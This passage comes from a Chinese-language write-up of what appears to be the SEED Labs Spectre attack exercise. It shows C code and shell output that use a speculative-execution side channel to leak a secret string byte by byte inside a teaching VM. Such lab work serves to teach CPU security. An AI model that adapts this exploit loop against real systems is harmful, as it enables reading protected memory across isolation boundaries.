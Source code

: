 
但是scores[0]总是得到最高的分数，同之前的原因一样。因此，在`void reloadSideChannelImproved()`函数中，遍历256个数组元素的时候，应该去掉0的位置：[1，256]。

```shell
[06/25/20]seed@VM:~/.../Spectre_Attack$ gcc -march=native SpectreAttackImproved.c -o SpectreAttackImproved
[06/25/20]seed@VM:~/.../Spectre_Attack$ ./SpectreAttackImproved Reading secret value at 0xffffe80c = The  secret value is 83
The number of hits is 7
```

## 5. 打印全部的secret

前一个实验只打印了secret的第一个单词，修改程序使其打印整个字符串。实验中打印的是数字，将数字转化成字母

```c
int main() {
  int i;
  uint8_t s;
  
  for (int n = 0; n < 17; ++n)
  {
    size_t larger_x = (size_t)(secret-(char*)buffer+n);
    flushSideChannel();
    for(i=0;i<256; i++) scores[i]=0; 
    for (i = 0; i < 1000; i++) {
      spectreAttack(larger_x);
      reloadSideChannelImproved();
    }
    int max = 0;
    for (i = 0; i < 256; i++){
     if(scores[max] < scores[i])  
       max = i;
    }
    printf("The  secret value is '%c'\t", (char)max);
    printf("The number of hits is %d\n", scores[max]);
  }
  return (0); 
}
```

编译并执行可得，需要执行多次才可以得到全部的结果：

```shell
[06/25/20]seed@VM:~/.../Spectre_Attack$ ./SpectreAttackImproved 
The  secret value is 'S'	The number of hits is 7
The  secret value is 'o'	The number of hits is 4
The  secret value is 'm'	The number of hits is 4
The  secret value is 'e'	The number of hits is 1
The  secret value is ' '	The number of hits is 2
The  secret value is 'S'	The number of hits is 3
The  secret value is 'e'	The number of hits is 3
The  secret value is 'c'	The number of hits is 1
The  secret value is 'r'	The number of hits is 1
The  secret value is 'e'	The number of hits is 3
The  secret value is 't'	The number of hits is 4
The  secret value is ' '	The number of hits is 3
The  secret value is 'V'	The number of hits is 1
The  secret value is 'a'	The number of hits is 4
The  secret value is 'l'	The number of hits is 1
The  secret value is 'u'	The number of hits is 2
The  secret value is 'e'	The number of hits is 2

```



